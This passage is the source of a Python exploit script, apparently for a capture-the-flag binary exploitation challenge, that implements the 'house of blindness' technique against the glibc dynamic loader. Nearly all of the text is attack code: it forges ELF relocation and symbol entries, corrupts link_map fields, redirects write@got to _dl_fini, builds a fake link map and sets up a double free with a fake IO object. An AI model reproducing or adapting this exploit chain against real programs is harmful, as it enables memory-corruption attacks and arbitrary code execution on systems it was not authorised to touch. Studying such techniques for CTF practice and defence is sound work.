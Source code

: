 ```python
# to remove versioning info, we need to get a static relocation that doesnt access version while we overwrite it

# these are some dummy entires which will just write the address of _init way past the binaries GOT
set_rela_table(elf64_rela.pack(0x4100, 0x200000007, 0))
set_sym_table(elf64_sym.pack(
    0, 0x12, 1, 0, exe.symbols["_init"] - l_addr_offset, 0))
# now, resolving write won't access version info
write(binary_map.l_info(link_map.DT_VER), p64(0))
# reset sym/rela tables
restore_sym_table()
restore_rela_table()


# ----------- replace write@got with _dl_fini -----------
# we need to forge a libc symbol so that we can overwrite write@got with _dl_fini
# to do this, we'll swap out _dl_x86_get_cpu_features's symtable entry with our own, which will resolve to _dl_fini
# to write it to write@got, we'll forge a rela entry for _dl_fini, telling it to write the resolution to write@got

# first, disable destructors from running once we do call _dl_fini. we don't want them to exec mid write.
write(binary_map.l_init_called(), p8(0))
# overwrite lsb of DT_SYMTAB to reference ld's GOT instead of binary's symtab
# the 9th entry should be in a writeable section, right after the GOT
write(
    ld.symbols["_GLOBAL_OFFSET_TABLE_"] + elf64_sym.size * 8,
    elf64_sym.pack(0x166, 0x12, 0x0, 0xD,
                   ld.symbols["_dl_fini"] - ld.address, 0xC),
)
write(ld_map.l_info(link_map.DT_SYMTAB), p8(0xE0))
# we'll attack the 9th symtab entry, _dl_x86_get_cpu_features. to do this, we swap out the strtable of the binary with our own.
# instead of reading write at strtable+0x4b, it'll read _dl_x86_get_cpu_features
write(ld.symbols["_r_debug"] + 0x4B, b"_dl_x86_get_cpu_features")
# move resolve _dl_x86_get_cpu_features instead of write
write(binary_map.l_info(link_map.DT_STRTAB), p8(0xB8))
# write resolution to write
set_rela_table(elf64_rela.pack(
    exe.got["write"] - l_addr_offset, 0x200000007, 0))
# cool! let's bring back our rela table.
restore_rela_table()


# ----------- house of blindness setup -----------
# let's restore l_addr
write(binary_map.l_addr(), p8(0))
# DT_FINI should point at _r_debug
write(binary_map.l_info(link_map.DT_FINI), p8(0xB8))
# make sure DT_FINI_ARRAY doesn't execute
write(binary_map.l_info(link_map.DT_FINI_ARRAY), p64(0))
# make sure __rtld_mutex_unlock gives up by setting invalid _kind
write(_rtld_global._dl_load_lock() + 0x10, p8(0xFF))

# ----------- fake linkmap for _dl_fixup -----------
fake_linkmap = link_map(_rtld_global._dl_load_lock() - ld.address)
symtab_dyn = ptr_write(fake_linkmap.l_info(link_map.DT_SYMTAB))

# ----------- double free to make symtab struct for _dl_fixup -----------
fake_io = io_obj(_rtld_global._dl_load_lock())
# when the swap happens, we still need 0xff at the mutex
write(fake_io._IO_save_end(), p8(0xFF))
```